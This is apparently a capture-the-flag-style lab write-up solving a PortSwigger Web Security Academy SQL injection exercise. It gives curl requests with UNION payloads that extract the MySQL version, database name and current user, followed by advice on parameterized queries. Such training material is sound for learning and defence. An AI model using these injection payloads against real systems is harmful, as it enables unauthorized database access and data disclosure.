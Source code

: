 # SQL Injection UNION Attack - MySQL/Microsoft Database Version

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The goal is to use a UNION attack to retrieve the database version string on MySQL or Microsoft SQL Server.

**Difficulty**: Practitioner  
**Lab URL**: https://0acf00b403c8123e80ee3af80014005b.web-security-academy.net/

## Vulnerability Analysis

### Original Query
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

### Key Difference from Oracle
Unlike Oracle (which requires `FROM DUAL`), MySQL and MSSQL allow SELECT without a FROM clause:
```sql
SELECT @@version  -- Valid in MySQL/MSSQL
```

## Exploitation

### Step 1: Test Database Type

We need to identify if it's MySQL or MSSQL by testing comment syntax:

**MySQL uses `#` or `--` (with space)**  
**MSSQL uses `--` (with space)**

**Test with `--` comment**:
```bash
curl "https://[lab-url]/filter?category=Gifts'+UNION+SELECT+NULL,NULL--"
```

**Response**: Internal Server Error

**Test with `#` comment** (URL encoded as `%23`):
```bash
curl "https://[lab-url]/filter?category=Gifts'+UNION+SELECT+NULL,NULL%23"
```

**Response** (truncated):
```html
<tr>
    <th>Conversation Controlling Lemon</th>
</tr>
<tr>
    <th>Couple's Umbrella</th>
</tr>
```

✅ Success! It's MySQL (accepts `#` comment).

### Step 2: Determine Number of Columns

From the successful test, we confirmed 2 columns are returned.

**Why 2 columns work:**
- First NULL matches the product name column
- Second NULL matches the product description column

### Step 3: Retrieve Database Version

For MySQL, we use `@@version` to get the version string.

**Payload**: `Gifts' UNION SELECT @@version,NULL#`

**Request**:
```bash
curl "https://[lab-url]/filter?category=Gifts'+UNION+SELECT+@@version,NULL%23"
```

**Response** (truncated):
```html
<tr>
    <th>Conversation Controlling Lemon</th>
</tr>
<tr>
    <th>Couple's Umbrella</th>
</tr>
<tr>
    <th>High-End Gift Wrapping</th>
</tr>
<tr>
    <th>Snow Delivered To Your Door</th>
</tr>
<tr>
    <th>8.0.42-0ubuntu0.20.04.1</th>
</tr>
```

✅ **Database Version**: `8.0.42-0ubuntu0.20.04.1` (MySQL 8.0.42 on Ubuntu 20.04)

### Step 4: Execute via Browser

1. Navigate to: `https://[lab-url]/filter?category=Gifts`
2. Modify URL to: `/filter?category=Gifts'+UNION+SELECT+@@version,NULL%23`
   - `%23` is URL encoding for `#`
3. The version string appears in the product listings
4. Lab automatically marks as solved

## Key Concepts

### Comment Syntax Differences

| Database | Comment Syntax | Notes |
|----------|---------------|-------|
| MySQL | `#` | Most common |
| MySQL | `-- ` | Space required after `--` |
| MSSQL | `--` | Space required after `--` |
| Oracle | `--` | Space required after `--` |

### Version Query Syntax

| Database | Query | Example Output |
|----------|-------|----------------|
| MySQL | `SELECT @@version` | `8.0.42-0ubuntu0.20.04.1` |
| MSSQL | `SELECT @@version` | `Microsoft SQL Server 2019...` |
| PostgreSQL | `SELECT version()` | `PostgreSQL 13.3...` |
| Oracle | `SELECT banner FROM v$version` | `Oracle Database 11g...` |

### URL Encoding Notes
- `#` must be encoded as `%23` in URLs
- Space can be encoded as `+` or `%20`
- `'` does not need encoding in most cases

## Alternative Approaches

**Using `--` comment** (add space):
```sql
' UNION SELECT @@version,NULL-- -
```
The `-` after `--` ensures there's a "character after space"

**Get more MySQL info**:
```sql
' UNION SELECT @@version_comment,NULL#
' UNION SELECT database(),NULL#
' UNION SELECT user(),NULL#
```

**Test column positions**:
```sql
' UNION SELECT NULL,@@version#  -- Version in 2nd column
' UNION SELECT @@version,NULL#  -- Version in 1st column
```

## Prevention

- **Use Parameterized Queries**:
  ```php
  // Bad
  $query = "SELECT * FROM products WHERE category = '$category'";
  
  // Good (PDO)
  $stmt = $pdo->prepare("SELECT * FROM products WHERE category = ?");
  $stmt->execute([$category]);
  ```
- **Input Validation**: Whitelist allowed categories
- **Least Privilege**: Restrict database user permissions
- **WAF/IDS**: Detect UNION-based attacks
- **Error Handling**: Don't expose database errors

## Lab Completion
Once the database version string is displayed on the page, the lab is automatically solved.

